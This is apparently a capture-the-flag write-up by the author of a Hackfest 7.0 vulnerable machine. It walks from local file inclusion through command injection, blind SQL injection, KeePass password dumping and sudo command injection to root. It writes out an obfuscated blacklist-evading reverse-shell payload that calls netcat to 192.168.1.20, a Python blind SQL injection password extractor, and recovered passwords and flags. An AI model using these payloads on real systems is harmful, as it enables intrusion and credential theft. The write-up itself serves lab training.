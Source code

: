 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0:\
<br>
</br> 
![img](images/image_2023-06-26_001633995.png)\
<br>
</br>
Let's first start with a scan to discover open ports:\
<br>
</br>
![img](images/image_2023-06-25_221255274.png)\
<br>
</br>
So let's go ahead and check the web app on port 80:\
<br>
</br>
![img](images/image_2023-06-25_221211894.png)\
<br>
</br>
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:\
<br>
</br>
![img](images/image_2023-06-25_221230171.png)\
<br>
</br>
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:\
<br>
</br>
![img](images/image_2023-06-25_221346724.png)\
<br>
</br>
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:\
<br>
</br>
![img](images/image_2023-06-25_221412943.png)\
<br>
</br>
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:\
<br>
</br>
![img](images/image_2023-06-25_221430709.png)\
<br>
</br>
We type any command and we find it is vulnerable to command injection:\
<br>
</br>
![img](images/image_2023-06-25_221442066.png)\
<br>
</br>
But when we type some other commands it tells us to get away, not very polite huh? :\
<br>
</br>
![img](images/image_2023-06-25_221518226.png)\
<br>
</br>
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server:\
<br>
</br> 
![img](images/image_2023-06-25_223318248.png)\
<br>
</br>
![img](images/image_2023-06-25_223328201.png)\
<br>
</br>
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:\
<br>
</br>
![img](images/image_2023-06-25_223347505.png)\
<br>
</br>
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):\
<br>
</br>
![img](images/image_2023-06-25_225508169.png)\
<br>
</br>
![img](images/image_2023-06-25_225517751.png)\
<br>
</br>
And now we can access it from ``http://127.0.0.1:10003``:\
<br>
</br>
![img](images/image_2023-06-25_225533101.png)\
<br>
</br>
Now let's try to test a bunch of different things:\
<br>
</br>
![img](images/image_2023-06-25_225552903.png)\
<br>
</br>
![img](images/image_2023-06-25_225605097.png)\
<br>
</br>
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)\
<br>
</br>
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:\
<br>
</br>
``python
#!/usr/bin/python
import requests
def string(start,end):\
<br>
</br>
        str=''
        for i in range(start,end):
    \
    <br>
    </br>
                str+=chr(i)
        return str
def passwd():\
<br>
</br>
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
    \
    <br>
    </br>
                for i in test:
            \
            <br>
            </br>
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                    \
                    <br>
                    </br>
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':\
<br>
</br>
        passwd()
``
And we run it:\
<br>
</br>
![img](images/image_2023-06-25_231535263.png)\
<br>
</br>
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:\
<br>
</br>
![img](images/image_2023-06-25_231850578.png)\
<br>
</br>
And we get our first flag: ``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:\
<br>
</br>
![img](images/image_2023-06-25_232511782.png)\
<br>
</br>
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it:``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is:``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):\
<br>
</br>
![img](images/image_2023-06-25_233142947.png)\
<br>
</br>
The password is:``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:\
<br>
</br>
![img](images/image_2023-06-25_233848208.png)\
<br>
</br>
And we get the second flag:``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:\
<br>
</br>
![img](images/image_2023-06-25_233904294.png)\
<br>
</br>
And we can take a look at the source code for the bash script:\
<br>
</br>
![img](images/image_2023-06-25_234055785.png)\
<br>
</br>
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:\
<br>
</br>
![img](images/image_2023-06-26_001223527.png)\
<br>
</br>
And yes we are ROOT!
And here is out final flag:``Hackfest{7a899205babaab8623b7cb007b843115}``
